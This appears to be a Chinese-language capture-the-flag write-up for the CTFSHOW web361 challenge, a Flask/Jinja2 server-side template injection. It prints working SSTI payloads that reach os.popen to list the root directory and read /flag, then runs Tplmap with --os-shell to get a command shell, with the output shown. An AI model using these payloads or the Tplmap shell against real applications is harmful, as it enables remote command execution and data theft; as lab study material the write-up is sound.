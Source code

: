 

#### CTFSHOW----web361

##### 手工

```
?name={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27ls%20/%27).read()%20}}

###
Hello
app bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var
###
```

打开文件

```
?name={{%20config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20/flag%27).read()%20}}
```

![image-20240830170313737](https://gitee.com/bx33661/image/raw/master/path/image-20240830170313737.png)

##### 使用Tplmap

```bash
python2 tplmap.py -u 'https://727c5e75-4ba9-40ce-8fe3-dafdafd6990d.challenge.ctf.show/?name'
```

![image-20240830165245938](https://gitee.com/bx33661/image/raw/master/path/image-20240830165245938.png)

```bash
#直接获取shell
python2 tplmap.py -u 'https://727c5e75-4ba9-40ce-8fe3-dafdafd6990d.challenge.ctf.show/?name' --os-shell

[+] Run commands on the operating system.
posix-linux $ ls
app.py
posix-linux $ ls /
\app
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
posix-linux $ cat /flag
ctfshow{82f81a13-a157-49a5-ba00-cb23de3238cb}
```
